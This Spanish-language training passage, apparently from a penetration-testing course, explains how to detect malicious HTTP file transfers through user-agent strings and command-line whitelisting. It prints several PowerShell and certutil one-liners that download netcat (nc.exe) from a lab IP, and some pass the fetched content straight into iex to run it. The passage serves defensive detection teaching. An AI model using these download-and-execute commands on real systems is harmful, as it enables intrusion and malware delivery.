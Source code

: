 La detección de la línea de comandos basada en listas negras es fácil de evadir, incluso utilizando una simple ofuscación de mayúsculas y minúsculas. Sin embargo, aunque el proceso de crear listas blancas de todas las líneas de comando en un entorno particular es inicialmente laborioso, es muy robusto y permite una detección y alerta rápida de cualquier línea de comando inusual.

La mayoría de los protocolos cliente-servidor requieren que el cliente y el servidor negocien cómo se entregará el contenido antes de intercambiar información. Esto es común con el protocolo `HTTP`. Existe la necesidad de interoperabilidad entre diferentes servidores web y tipos de navegadores web para garantizar que los usuarios tengan la misma experiencia sin importar su navegador. Los clientes HTTP son reconocidos principalmente por su cadena de agente de usuario, que el servidor utiliza para identificar qué cliente `HTTP` se está conectando, por ejemplo, Firefox, Chrome, etc.

Los agentes de usuario no solo se utilizan para identificar navegadores web, sino que cualquier cosa que actúe como un cliente `HTTP` y se conecte a un servidor web a través de `HTTP` puede tener una cadena de agente de usuario (por ejemplo, `cURL`, un script personalizado de `Python` o herramientas comunes como `sqlmap` o `Nmap`).

Las organizaciones pueden tomar algunas medidas para identificar posibles cadenas de agente de usuario compilando primero una lista de cadenas de agente de usuario legítimas conocidas, agentes de usuario utilizados por procesos de sistema operativo predeterminados, agentes de usuario comunes utilizados por servicios de actualización como Windows Update y actualizaciones de antivirus, etc. Estos pueden ser alimentados en una herramienta SIEM utilizada para la caza de amenazas para filtrar el tráfico legítimo y centrarse en anomalías que pueden indicar un comportamiento sospechoso. Cualquier cadena de agente de usuario de aspecto sospechoso puede ser investigada más a fondo para determinar si se utilizaron para realizar acciones maliciosas. Este [sitio web](http://useragentstring.com/index.php) es útil para identificar cadenas de agente de usuario comunes. Una lista de cadenas de agente de usuario está disponible [aquí](http://useragentstring.com/pages/useragentstring.php).

Las transferencias de archivos maliciosas también pueden detectarse por sus agentes de usuario. Los siguientes agentes de usuario/cabeceras se observaron en técnicas comunes de transferencia `HTTP` (probado en Windows 10, versión 10.0.14393, con PowerShell 5).

### Invoke-WebRequest - Cliente

```r
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

### Invoke-WebRequest - Servidor

```r
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### WinHttpRequest - Cliente

```r
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

### WinHttpRequest - Servidor

```r
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### Msxml2 - Cliente

```r
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

### Msxml2 - Servidor

```r
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### Certutil - Cliente

```r
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

### Certutil - Servidor

```r
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### BITS - Cliente

```r
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

### BITS - Servidor

```r
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

Esta sección solo rasca la superficie sobre la detección de transferencias de archivos maliciosas. Sería un excelente comienzo para cualquier organización crear una lista blanca de binarios permitidos o una lista negra de binarios conocidos por ser utilizados con fines maliciosos. Además, buscar cadenas de agente de usuario anómalas puede ser una excelente manera de detectar un ataque en progreso. Cubriremos técnicas de detección y caza de amenazas en profundidad en módulos posteriores.